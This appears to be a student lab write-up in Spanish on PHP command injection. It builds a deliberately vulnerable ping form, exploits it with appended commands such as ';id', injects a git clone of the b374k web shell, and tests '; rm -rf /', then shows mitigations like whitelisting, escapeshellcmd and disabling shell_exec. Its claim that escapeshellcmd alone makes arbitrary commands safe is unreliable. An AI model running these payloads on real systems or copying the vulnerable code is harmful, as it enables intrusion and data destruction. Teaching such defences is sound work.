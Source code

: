 # PPS-Unidad3Actividad7-Aaron

## Código vulnerable

He creado un fichero **rce.php**  dentro de mi máquina vulnerable:

```php
<?php
if (isset($_POST['ip'])) {
        $ip = $_POST['ip'];
        // Ejecutar el ping y capturar la salida
        $output = shell_exec("ping -c 4 " . $ip);
        echo $output;
}
?>
<form method="post">
        <input type="text" name="ip" placeholder="Ejemplo: 8.8.8.8" required>
        <button type="submit">Hacer Ping</button>
</form>
```

Este código crea un campo de texto y un botón con php en el que podemos introducir contenido sin que sea filtrado, en caso de que introduzcamos una dirección ip. nos muestra el intercambio de paquetes.
(valor del campo: 8.8.8.8)

![](imagenes/ping1.png)

Para explotarlo voy a concatenear otro comando detrás de la dirección ip con ; para que lo ejecute a continuación del ping.
(valor del campo: 8.8.8.8;id)

![](imagenes/ping2.png)

### Descargar contenido

Primero en la máquina vulnerable le he dado permisos 777 al directorio **/var/www/html**.

![](imagenes/clone1.png)

Si ejecutamos un clonado de git concatenado a la ip del ping del campo vulnerable nos hace un clonado correctamente

```bash
8.8.8.8 & git clone https://github.com/b374k/b374k.git /var/www/html/b374k
```

![](imagenes/clone2.png)

Al acceder a la siguiente ruta:

```bash
http://localhost/b374k/index.php
```

Muestra el index del repositorio clonado

![](imagenes/clone3.png)

## Mitigaciones

Para las mitigaciones voy a usar unos campos completamente distingos al del ping anterior.

Cambiar el contenido de **rce.php**:

```php
<?php
$output = shell_exec($_GET['cmd']);
echo "<pre>$output</pre>";
?>
```

Por otro lado tenemos el *rce.html**:

```html
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Ejecutar Comando</title>
</head>
<body>
    <h2>Ingrese el comando a ejecutar</h2>
    <form method="get" action="http://localhost/rce.php">
        <input type="text" name="cmd" placeholder="Ejemplo: whoami" required>
        <button type="submit">Ejecutar</button>
    </form>
</body>
</html>
```

Este *HTML*, lo que hace es llamar al **rce.php** que hemos guardado anteriormente.

![](imagenes/mitiganciones1.png)

### Eliminar el uso de shell_exec()

Lo primero para mitigar es cambiar el **rce.php** por este nuevo:

Código seguro (rce.php sin posibilidad de ejecución de comandos ya que se elimina totalmente)

```php
<?php
die("Esta funcionalidad ha sido deshabilitada por razones de seguridad.");
?>
```

Si se necesita permitir algunos comandos específicos, usar una lista blanca (whitelist).

Código seguro (rce.php con lista blanca de comandos permitidos)

```php
<?php
$allowed_cmds = ["ls", "whoami", "pwd"];
if (!isset($_GET['cmd']) || !in_array($_GET['cmd'], $allowed_cmds)) {
        die("Comando no permitido.");
}
$output = shell_exec($_GET['cmd']);
echo htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
?>
```

Permitimos la ejecución de comandos ls, whoami, pwd, el resto dará mensaje de "comando no permitido".
Ejemplo de pwd:

![](imagenes/mitigaciones2.png)

Sin embargo, comandos no permitido:

![)(imagenes/mitigaciones3.png)

### Ejecutar Comandos con Escapes Seguros

Si se necesita ejecutar comandos con argumentos, usar escapeshellcmd() para evitar inyección de comandos.

Código seguro (rce.php con escapes para argumentos)

```php
<?php
if (isset($_GET['cmd'])) {
    // Obtener el comando de la URL
    $cmd = $_GET['cmd'];

    // Usar escapeshellarg para proteger la entrada
    $cmd_safe = escapeshellcmd($cmd);

    // Ejecutar el comando de manera segura
    $output = shell_exec($cmd_safe);
    if (empty($output)) {
            echo "Comando no permitido.";
    } else {
        // Mostrar la salida de forma segura
        echo "<pre>" . htmlspecialchars($output) . "</pre>";
    }
}
?>
```
Si ejecuto ahora este comando

```bash
http://localhost/rce.php?cmd=ping 8.8.8.8; rm -rf /
```

![](imagenes/mitagaciones4.png)

Deshabilitar shell_exec() en PHP

Si no se necesita ejecución de comandos en todo el servidor, deshabilitar las funciones peligrosas en php.ini.

Editar php.ini, para ello utilizamos el editor de texto nano (o el que prefiramos) para abrir la configuración de PHP de nuestro contenedor.

```bash
docker exec -it lamp-php83 /bin/bash
```

Editando el php.ini de la máquina vulnerable y agregando esta línea al final:

![](imagenes/mitigaciones5.php)

## PRUEBA FINAL

Acceder a:

```
http://localhost/rce.php?cmd=id
```
Si la mitigación funciona, se debería ver el mensaje "Comando no permitido." en pantalla. o en el caso de que utilizamos el entorno de pruebas, el error php.

![](imagenes/mitigaciones6.png)
